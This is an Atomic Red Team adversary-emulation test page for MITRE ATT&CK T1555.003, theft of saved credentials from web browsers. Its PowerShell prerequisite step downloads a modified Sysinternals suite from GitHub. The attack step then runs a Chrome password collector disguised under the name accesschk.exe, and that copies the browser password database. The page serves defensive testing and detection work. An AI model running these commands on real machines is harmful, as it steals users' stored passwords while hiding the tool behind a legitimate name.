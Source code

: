 ```yaml
---
tags: [T1555_003, atomic_test]
filename: "[[T1555.003 - Credentials from Password Stores- Credentials from Web Browsers]]"
---
```

# T1555.003 - Credentials from Password Stores: Credentials from Web Browsers

## Atomic Test #1 - Run Chrome-password Collector
A modified sysinternals suite will be downloaded and staged. The Chrome-password collector, renamed accesschk.exe, will then be executed from #{file_path}.

Successful execution will produce stdout message stating "Copying db ... passwordsDB DB Opened. statement prepare DB connection closed properly". Upon completion, final output will be a file modification of PathToAtomicsFolder\..\ExternalPayloads\sysinternals\passwordsdb.

Adapted from [MITRE ATTACK Evals](https://github.com/mitre-attack/attack-arsenal/blob/66650cebd33b9a1e180f7b31261da1789cdceb66/adversary_emulation/APT29/CALDERA_DIY/evals/data/abilities/credential-access/e7cab9bb-3e3a-4d93-99cc-3593c1dc8c6d.yml)

**Supported Platforms:** Windows


**auto_generated_guid:** 8c05b133-d438-47ca-a630-19cc464c4622





#### Inputs:
| Name | Description | Type | Default Value |
|------|-------------|------|---------------|
| file_path | File path for modified Sysinternals | string | PathToAtomicsFolder&#92;..&#92;ExternalPayloads|


#### Attack Commands: Run with `powershell`! 


```powershell
Set-Location -path "#{file_path}\Sysinternals";
./accesschk.exe -accepteula .;
```

#### Cleanup Commands:
```powershell
Remove-Item "#{file_path}\Sysinternals" -Force -Recurse -ErrorAction Ignore
```



#### Dependencies:  Run with `powershell`!
##### Description: Modified Sysinternals must be located at #{file_path}
##### Check Prereq Commands:
```powershell
if (Test-Path "#{file_path}\SysInternals") {exit 0} else {exit 1}
```
##### Get Prereq Commands:
```powershell
New-Item -Type Directory "PathToAtomicsFolder\..\ExternalPayloads\" -ErrorAction ignore -Force | Out-Null
[Net.ServicePointManager]::SecurityProtocol = [Net.SecurityProtocolType]::Tls12
Invoke-WebRequest "https://github.com/mitre-attack/attack-arsenal/raw/66650cebd33b9a1e180f7b31261da1789cdceb66/adversary_emulation/APT29/CALDERA_DIY/evals/payloads/Modified-SysInternalsSuite.zip" -OutFile "#{file_path}\Modified-SysInternalsSuite.zip"
Expand-Archive "#{file_path}\Modified-SysInternalsSuite.zip" "#{file_path}\sysinternals" -Force
Remove-Item "#{file_path}\Modified-SysInternalsSuite.zip" -Force
```